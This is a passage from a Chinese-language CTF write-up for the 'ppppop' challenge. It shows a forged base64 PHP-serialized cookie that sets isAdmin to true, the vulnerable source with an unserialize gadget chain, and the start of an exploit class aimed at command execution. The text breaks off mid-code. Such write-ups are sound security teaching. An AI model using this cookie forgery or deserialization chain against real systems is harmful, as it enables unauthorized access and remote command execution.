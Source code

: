 成功拿到flag



#### ppppop

访问的时候，一片空白，我们使用bp抓包：

![image-20230326223354302](https://s2.loli.net/2023/03/26/l71encTkJ2ZsV93.png)

将cookie进行base64解密：

```
O:4:"User":1:{s:7:"isAdmin";b:0;}
将0改为1，base64编码：
Tzo0OiJVc2VyIjoxOntzOjc6ImlzQWRtaW4iO2I6MTt9
```

我们使用新的cookie去访问，得到源码：

```php
<?php
error_reporting(0);
include('utils.php');

class A {
    public $className;
    public $funcName;
    public $args;

    public function __destruct() {
        $class = new $this->className;
        $funcName = $this->funcName;
        $class->$funcName($this->args);
    }
}

class B {
    public function __call($func, $arg) {
        $func($arg[0]);
    }
}

if(checkUser()) {
    highlight_file(__FILE__);
    $payload = strrev(base64_decode($_POST['payload']));
    unserialize($payload);
} 
```



很简单的反序列化题，我们直接构造一条链：命令执行

```php
<?php

class B
{

}
class A
{
    public $className;
    public $funcName;
    public $args;

    public function __construct()
    {
```